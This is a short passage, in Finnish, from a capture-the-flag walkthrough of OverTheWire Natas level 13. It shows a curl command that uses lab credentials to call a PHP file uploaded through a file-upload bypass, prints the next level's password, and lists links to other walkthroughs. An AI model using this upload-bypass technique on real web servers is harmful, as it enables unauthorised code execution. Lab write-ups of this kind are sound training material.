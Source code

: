 ainakin saattiin toi viimeinen tiedoston polku ja mikä data **/upload/7801d4li7v.php**

Sitten tarkistettaan sen sisältö ja normi `curl` komento, ja saattiin Natas 14 salasansa.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -u natas13:trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC http://natas13.natas.labs.overthewire.org/upload/7801d4li7v.php
����
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
```

## Level 13 - 4 - vinkkejä ja ohjeita:

https://samxia99.medium.com/overthewire-updated-natas-walkthrough-level-13-1f5407b6f35a


https://learnhacking.io/overthewire-natas-level-13-walkthrough/

https://github.com/psmiraglia/ctf/blob/master/overthewire/natas/natas13.md




